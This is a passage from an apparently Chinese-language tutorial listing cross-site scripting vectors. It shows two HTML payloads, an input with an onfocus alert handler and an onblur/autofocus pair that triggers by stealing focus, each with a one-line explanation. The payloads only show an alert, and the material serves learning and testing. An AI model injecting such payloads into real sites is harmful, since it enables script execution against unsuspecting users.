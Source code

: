 ----

**2.** `<input onfocus="alert('xss');">`

点击小框后触发xss

![images](/images/2019-03-23/xss04.png)

-----

**3.** `<input onblur=alert("xss") autofocus><input autofocus>`

竞争焦点，从而触发onblur事件
